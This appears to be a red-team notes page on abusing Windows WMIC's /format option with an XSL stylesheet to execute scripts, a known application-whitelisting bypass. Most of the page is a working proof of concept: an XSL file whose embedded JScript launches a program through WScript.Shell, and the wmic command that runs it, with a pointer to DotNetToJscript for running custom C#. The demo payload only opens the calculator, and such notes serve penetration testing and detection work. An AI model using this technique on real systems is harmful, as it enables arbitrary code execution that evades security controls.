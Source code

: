 # WMIC

## WMIC

Windows Management Instrumentation Command-Line

* /format flag = formt wmic output \(wmic process get /format:list\)
* Use "&lt;!\[CDATA\[" payload \(ie msbuild.exe link\)
* Can be used with XSL file \(CSS style sheet for XML file\)
* Support JScript, VBscript and custom C\# language \(using DotNetToJscript\)

\(see DotNetToJscript\)

### Poc

* **Calc.xsl**

```text
<xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:ms="urn:schemas-microsoft-com:xslt" xmlns:vb="urn:the-xml-files:xslt-vb" xmlns:user="placeholder" version="1.0">
<!-- Copyright (c) Microsoft Corporation.  All rights reserved. -->

<xsl:output method="text" omit-xml-declaration="yes" indent="no"/>
<xsl:strip-space elements="*" />

<ms:script implements-prefix="user" language="JScript">
<![CDATA[

        var r = new ActiveXObject("WScript.Shell").Run("calc.exe")

  ]]></ms:script>
<xsl:template match="/"><xsl:apply-templates select="//RESULTS"/><xsl:apply-templates select="//INSTANCE"/><xsl:value-of select="user:DisplayValues(.)"/></xsl:template>
<xsl:template match="RESULTS"><xsl:value-of select="user:CountResults(.)"/></xsl:template>
<xsl:template match="INSTANCE"><xsl:value-of select="user:GotInstance()"/><xsl:apply-templates select="PROPERTY|PROPERTY.ARRAY|PROPERTY.REFERENCE"/></xsl:template>
<xsl:template match="PROPERTY|PROPERTY.ARRAY|PROPERTY.REFERENCE"><xsl:value-of select="user:GetValues(.)"/></xsl:template>
</xsl:stylesheet>
```

* Execute the file file

`wmic process get /format:"calc.xsl"`

